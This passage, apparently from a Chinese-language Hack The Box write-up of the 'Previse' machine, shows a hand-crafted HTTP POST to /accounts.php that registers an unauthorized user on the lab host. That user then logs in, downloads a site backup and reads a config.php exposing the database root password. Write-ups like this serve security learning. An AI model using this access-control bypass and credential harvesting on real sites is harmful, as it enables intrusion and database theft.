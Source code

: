 如果我们可以创建一个用户，登陆到后台，那应该可以下载备份文件
修改burp的http头为

```
POST /accounts.php HTTP/1.1

Host: 10.10.11.104

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 61

Origin: http://10.10.11.104

Connection: close

Cookie: PHPSESSID=gh706jir5vam1308g1ds54rsi7

Upgrade-Insecure-Requests: 1

X-Forwarded-For:1.1.1.1



username=test123&password=123456&confirm=123456&submit=submit
```

创建用户成功
```
<p>Success! User was added!</p>
```

现在用```test123:123456```可以登陆后台下载文件

暴露出一个数据库密码
```
┌──(root💀kali)-[~/htb/Previse/siteBackup]
└─# cat config.php 
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>

```
